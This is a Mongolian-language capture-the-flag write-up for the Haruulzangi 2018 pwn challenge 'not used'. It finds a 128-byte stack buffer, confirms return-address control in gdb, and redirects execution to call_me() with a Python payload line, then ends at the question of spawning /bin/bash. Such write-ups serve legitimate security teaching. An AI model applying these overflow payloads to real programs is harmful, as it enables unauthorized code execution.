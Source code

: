 # Haruulzangi 2018 Round 1 : not used 

**Category:** Pwn
**Points:** 964
**Solves:** 5
**Description:**

>nc 218.100.84.106 9006 дээр хавсралт дээрх elf ажиллаж байна.
>
>link [notused](notused)
>
>link [notused.c](notused.c)
>
>--
>reamb


## Write-up

Өгөгдсөн `notused` binary файлыг ажилуулвал доорхи үр дүн гарж байв. 
```
[root@reamb home]# ./notused
[+] Feed me more!!!
hello
[+] zuv baildaa
[root@reamb home]#
```
 notused.c дээр тухайн програмын бүрэн код хуулагдсан байна. Source код дээрээс харвал дээрх мөрүүд нь хамгийн сонирхолтой хэсгүүд юм.
```
char * n0t_us3d = "/bin/bash";

int    call_me() {
        return system("/bin/date");
}


``` 
Энд хэзээ ч дуудагдахгүй n0t_us3d хувьсагчын утгыг system() дотор дуудаж чадвал бид shell ажиллуулж чадах юм. 

Юны түрүүнд binary файл дээр бүффер -ийн хэмжээг тооцолж үзье. үүнийг уламжиллалт аргаар ольё. 
```
[root@reamb home]# python -c 'print "A"*128' | ./notused
[+] Feed me more!!!
[+] zuv baildaa
Segmentation fault
```
128 байт аас эхлээд buffer дүүрч алдаа өгч байна. энийг souce code дээрээс  `char buf[128];` -ээр олж болно. Бид stack-г дүүргэн буцах Return address  дээр call_me хаяг байршуулж ажилуулах гэж үзье. 

>StackFrame нь  Stack(128 bytes) + ebp(4 bytes) + return adrress(4 bytes)  байдаг билээ. 

Үүнийг gdb дээр мөн шалгалт хийж тогтооё.

```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"CCCC"+"DDDD"' > rea.txt
[root@reamb home]#
```
```

[root@reamb home]# gdb ./notused
GNU gdb (GDB) Red Hat Enterprise Linux 7.6.1-110.el7
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/notused...done.
gdb-peda$ run < rea.txt
Starting program: /home/./notused < rea.txt
[+] Feed me more!!!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x8d
EBX: 0xf7fca000 --> 0x1c6da8
ECX: 0xffffd584 ('A' <repeats 128 times>, "BBBBCCCCDDDD\n\206\004\b\024")
EDX: 0x100
ESI: 0x0
EDI: 0x0
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd60c ("DDDD\n\206\004\b\024")
EIP: 0x43434343 ('CCCC')
EFLAGS: 0x10203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xffffd60c ("DDDD\n\206\004\b\024")
0004| 0xffffd610 --> 0x804860a (<_fini+6>:      (bad))
0008| 0xffffd614 --> 0x14
0012| 0xffffd618 --> 0x0
0016| 0xffffd61c --> 0xf7e1d1b3 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0020| 0xffffd620 --> 0x1
0024| 0xffffd624 --> 0xffffd6b4 --> 0xffffd7fb ("/home/./notused")
0028| 0xffffd628 --> 0xffffd6bc --> 0xffffd80b ("XDG_SESSION_ID=504")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-222.el7.i686
```

Эндээс программ нь 0x43434343 буюу CCCC хаяг дээр кодыг ажилуулах гээд алдаа зааж байгаа нь харагдаж байна.  тэгвэл бид CCCC -н хаягыг call_me() ээр сольж бичиж үзье. call_me() ийн хаягыг эхэлж ольё.

```
[root@reamb home]# objdump -D ./notused |grep call_me
080484dd <call_me>:
```

фүнкцийн санах ой дээрх хаяг олдлоо. үүнийг stack руу бичих тул little indian буюу урвуугаар бичнэ.
``` 
[root@rea home]# python -c 'print "A"*128 + "BBBB"+"\xdd\x84\x04\x08"' | ./notused
[+] Feed me more!!!
Mon Oct  8 17:13:01 +08 2018
```

бидний хүссэн call_me -г дуудаж чадлаа. Одоо харин system(/bin/bash) хэрхэн дуудах вэ? 









## Other write-ups and resources

* none yet
